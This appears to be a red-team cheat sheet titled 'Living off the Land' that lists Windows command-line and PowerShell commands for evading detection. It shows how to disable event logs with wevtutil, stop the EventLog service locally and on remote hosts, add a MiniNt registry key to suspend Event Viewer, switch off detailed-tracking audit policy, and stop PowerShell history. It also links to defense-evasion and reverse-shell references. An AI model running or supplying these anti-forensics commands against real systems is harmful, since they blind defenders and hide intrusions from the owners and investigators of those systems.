 # Living off the Land

## Command Prompt

Disable specific logs.

```
C:\> wevtutil.exe sl Application /e:false

wevtutil.exe sl Security /e:false

wevtutil.exe sl System /e:false
```

Disable the event log service.

```
C:\> net.exe stop EventLog
```

Suspend **Event Viewer** from generating logs

```
C:\> reg.exe add "[\\<IP>\]HKLM\System\CurrentControlSet\Control\MiniNt" /f
```

Disable detailed tracking.

```
C:\> auditpol.exe /get /category:"Detailed Tracking"

C:\> auditpol.exe /set /category:"Detailed Tracking" /success:disable /failure:disable
```

## PowerShell

Disable history commands.

```
PS C:\> Set-PSReadLineOption -HistorySaveStyle SaveNothing
```

Disable the event log service.

```
PS C:\> Stop-Service -Force -Name "EventLog"

PS C:\> Get-Service [-ComputerName <IP>] -Name "EventLog" | Stop-Service -Force

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Stop-Service -Force -Name "EventLog" }
```

Suspend Event Viewer from generating logs

```
PS C:\> New-Item -Path Registry::HKLM:\System\CurrentControlSet\Control\MiniNt" -Force
```

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### r00t 3xp10it

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)

### DMCXBlue

- [DMCXBlue: Impair Command History Logging](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1562-impair-defenses/impair-command-history-logging)